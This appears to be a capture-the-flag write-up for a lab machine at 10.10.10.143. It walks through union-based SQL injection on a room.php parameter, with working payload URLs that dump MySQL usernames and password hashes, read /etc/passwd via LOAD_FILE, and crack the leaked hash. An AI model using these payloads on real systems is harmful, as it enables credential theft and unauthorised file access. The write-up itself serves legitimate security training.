




Index
- nmapAutomator
- gobuster
- initial foothold
- manual sqlinjection (Blind SQL injection)
- Error based Blind SQL Injection
- revshell.php
- Exploit the SQL injection to add php code into a file on the system
- reverse shell
- sqlmap
- privesc to pepper
- privesc to root
- user/root
- lessons learned
Error based Blind SQL Injection
Error Based Database Enumerationnow that we know the correct number of database columns, we can substitute in a valid mySQL query in one of the columns! take for example the simple query
SELECT user FROM mysql.user
subbing it makes our orginal union select statement look like this:
http://10.10.10.143/room.php?cod=9999 union select 1,(SELECT user FROM mysql.user),3,4,5,6,7

and we leaked DBadmin's username!
user=DBadmin
Great! we may even be able to leak the password data as well from mysql.user with the
SELECT password FROM mysql.user
subbing it in looks like the following:
http://10.10.10.143/room.php?cod=9999 union select 1,(SELECT password FROM mysql.user),3,4,5,6,7


and we leaked DBadmin's password hash!
password=2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
we can also use the group_concat() mysql function to combine different database objects to one string, enumerating/outputting their contents all at once
http://10.10.10.143/room.php?cod=9999 union select 1,(SELECT group_concat(host,user,password) FROM mysql.user),3,4,5,6,7

another mysql function we can play around with is the LOAD_FILE(<file location>) function, which is practically like a local file inclusion vulnerability we've seen before, we can leak senstitive files from our victim this way! Lets try outputting /etc/passwd
http://10.10.10.143/room.php?cod=9999 union select 1,LOAD_FILE('/etc/passwd'),3,4,5,6,7


2D2B7A5E4E637B8FBA1D17F40318F277D29964D0 lets throw this hash in crackstation

and just like that, we've leaked dbadmin's password imissyou